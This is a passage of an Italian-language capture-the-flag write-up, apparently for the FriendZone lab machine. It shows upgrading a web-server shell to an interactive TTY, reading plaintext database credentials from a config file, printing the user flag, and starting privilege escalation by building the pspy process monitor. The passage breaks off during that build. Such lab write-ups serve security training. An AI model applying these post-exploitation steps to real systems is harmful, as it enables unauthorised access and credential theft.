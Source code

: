 Con which python3 verifichiamo che abbiamo installato python3 cosi da poter effettuare un upgrade della shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

SHELL=/bin/bash script -q /dev/null


^Z
stty raw -echo; fg
export SHELL=bash
export TERM=xterm-256color
www-data@FriendZone:/var/www$    


```

Troviamo quelle che sembrano le credenziali dell'utente frined
```bash
www-data@FriendZone:/var/www$ ls
admin       friendzoneportal       html             uploads
friendzone  friendzoneportaladmin  mysql_data.conf
www-data@FriendZone:/var/www$ cat mysql_data.conf 
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ

```

```bash
www-data@FriendZone:/home/friend$ cat user.txt 
490aa9b40e10cef2b1294ac7ab55c884
```



# PRIVESC

Ci scarichiamo pspy(https://vk9-sec.com/how-to-enumerate-services-in-use-with-pspy/)

```bash
──(root㉿kali)-[/home/kali/tool/PrivEsc]
└─# git clone https://github.com/DominicBreuker/pspy
Cloning into 'pspy'...
remote: Enumerating objects: 1126, done.
remote: Counting objects: 100% (100/100), done.
remote: Compressing objects: 100% (58/58), done.
remote: Total 1126 (delta 46), reused 87 (delta 39), pack-reused 1026
Receiving objects: 100% (1126/1126), 9.29 MiB | 5.21 MiB/s, done.
Resolving deltas: 100% (498/498), done.
                                                                                
  
┌──(root㉿kali)-[/home/kali/tool/PrivEsc]
└─# cd pspy                   
                                                                                
┌──(root㉿kali)-[/home/kali/tool/PrivEsc/pspy]
└─# go build
go: downloading github.com/spf13/cobra v1.4.0
go: downloading golang.org/x/sys v0.0.0-20220520151302-bc2c85ada10a
go: downloading github.com/spf13/pflag v1.0.5
                                                                                 
┌──(root㉿kali)-[/home/kali/tool/PrivEsc/pspy]
```